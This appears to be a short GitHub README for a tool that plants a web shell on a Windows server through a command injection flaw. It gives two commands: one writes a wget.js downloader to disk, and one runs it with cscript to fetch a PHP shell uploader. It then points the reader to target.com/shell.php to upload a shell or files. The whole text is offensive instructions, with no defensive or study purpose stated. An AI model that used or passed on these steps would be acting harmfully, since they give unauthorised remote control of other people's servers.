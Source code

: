 # Windows-Command-injection-Shell-Uploader
Upload shell in windows server using command injection vulnerbility.

#Steps

*echo put wget.js file code here >weget.js
*cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files. 
